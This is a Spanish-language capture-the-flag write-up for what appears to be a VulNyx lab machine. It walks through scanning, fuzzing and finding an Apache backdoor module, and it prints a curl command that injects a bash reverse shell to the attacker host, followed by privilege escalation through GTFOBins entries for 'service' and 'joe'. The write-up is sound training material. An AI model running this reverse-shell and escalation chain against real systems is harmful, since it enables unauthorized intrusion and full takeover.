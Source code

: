 # Writeup

## Conocer la red

Lo primero de todos es encontrar equipos dentro de mi red.

`sudo arp-scan -I eth0 --localnet`

![captura-red](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/e6e95007-1bbb-4cf5-b593-0e2619a681a4)

Como ya sabemos, las máscaras que empiezan por 00:0c son de VMware, por lo tanto la máquina atacante es la **192.168.166.104**.

## Conectividad con la máquina atacante

Comprobamos que tenemos conectividad.

`ping -c1 192.168.166.104`

![captura-ping](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/360454c2-5bf1-402f-8d25-9ea9d39d7724)

Vemos que el **ttl** es **64** por lo que significa que es una máquina Linux.

## Escaneo de puertos

Ahora vamos a hacer un escáneo para ver los puertos que están abiertos

`sudo nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 192.168.166.104 -oN allPorts`

![captura-escaneo](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/1aa0275b-bcac-4e0b-81fa-c201fe06a703)

Podemos ver que utiliza para el puerto 80 Apache. Lo confirmamos buscando en el navegador la IP atacante.

![captura-apache](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/088be370-e75a-4ca2-9b03-bcd254a291e1)

## Fuzzing

Lo que se me ocurre ahora mismo es hacer Fuzzing para encontrar directorios o subdirectorios. Se pueden utilizar **gobuster**, **wfuzz**. En mi caso voy a utilizar gobuster.

`sudo gobuster dir -w /usr/share/wordlist/Seclist/Discovery/Web-Content/directory-list-2.3-medium.txt -x .txt,.php,.py,.html -u "http://192.168.166.104/"`

![captura-gobuster](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/65937e31-497c-4af9-a131-10c4064e698d)

Encontramos un **info.php**. Lo buscamos en el navegador.

![captura-backdoor](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/e5c527bc-2dd2-41fc-b57b-59b411396243)

Vemos que hay un módulo bastante sospechoso llamado **backdoor** o **puerta trasera**.

![captura-mod](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/ad38e771-b424-4636-a61b-b5c87c6a38c0)

Podemos ejecutar comandos de manera remota **(RCE)**.

![captura-whoami](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/b69bb677-5323-4a08-9ee0-4fb6bdbbce9a)

Vemos que si podemos ejecutar. Por lo tanto lo que se me ocurre en estos momentos es hacer una **reverse shell**.

`curl -sX GET -H "Backdoor: bash -c 'bash -i >& /dev/tcp/192.168.166.103/443 0>&1'" "http://192.168.166.104"`

Pero antes nos ponemos en escucha.

`nc -nlvp 443`

Y ahora sí le damos.

![captura-nc](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/76bd4bc4-2335-4419-9430-d0774dd7eb93)

Volvemos la reverse shell útil y cómoda.

`script /dev/null -c bash`

`CTRL + Z`

`stty raw -echo; fg`

`reset xterm`

`export TERM=xterm`

`export BASH=bash`

Podemos ejecutar **service** como **laurent**. Buscamos el binario en **[GTfobins](https://GTfobins.github.io)**.

Y seguimos los pasos

![captura-gtfobins](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/51c1c621-3cb6-45fd-8c6d-e6ee8fa30fcc)

Una vez hechos los pasos, buscamos la flag.

![captura-laurent](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/cd77b848-8226-42b0-9924-d48988f97391)

Ahora vamos a por la de root.

![captura-root](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/f93535f8-35ba-461d-9d83-32fb0da1b00d)

Vemos que podemos ejecutar como root el comando **joe**.

Volvemos a buscar en **[GTfobins](https://GTfobins.github.io)**.

![captura-gtfobins-joe](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/908cf6cc-fea5-4be7-b072-3784300e42a7)

Seguimos los pasos.

![captura-joe-root](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/474b1c06-6ede-4c7e-87fa-a108357f70c2)

Y buscamos la flag.

![captura-flag-root](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/aa5d388d-f987-4ec5-bb2e-2face328c9bb)

Encontramos las dos flag.